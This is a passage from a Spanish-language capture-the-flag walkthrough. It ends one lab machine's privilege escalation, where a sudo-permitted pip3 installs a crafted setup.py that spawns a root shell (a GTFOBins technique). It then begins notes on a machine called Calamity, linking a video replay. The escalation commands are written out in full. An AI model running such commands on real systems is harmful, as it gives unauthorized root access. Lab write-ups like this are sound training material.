 ```bash
whoami
#Output
Law
```

Ya le podemos hacer un nuevo tratamiento de la TTY.




## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
```

vemos aqui que podemos utilizar la heramienta pip3 con el privilegio del usuario root sin proporcionar contraseña.

Miramos en [GTFOBINS](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip3 install $TF

whoami
#Output
root
```



# Calamity {-}

## Introduccion {-}

La maquina del dia 28/07/2021 se llama Calamity
.

El replay del live se puede ver aqui

[![S4vitaar Calamity maquina](https://img.youtube.com/vi/sREANcb8H1Q/0.jpg)](https://www.youtube.com/watch?v=sREANcb8H1Q)

No olvideis dejar un like al video y un comentario...



## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 
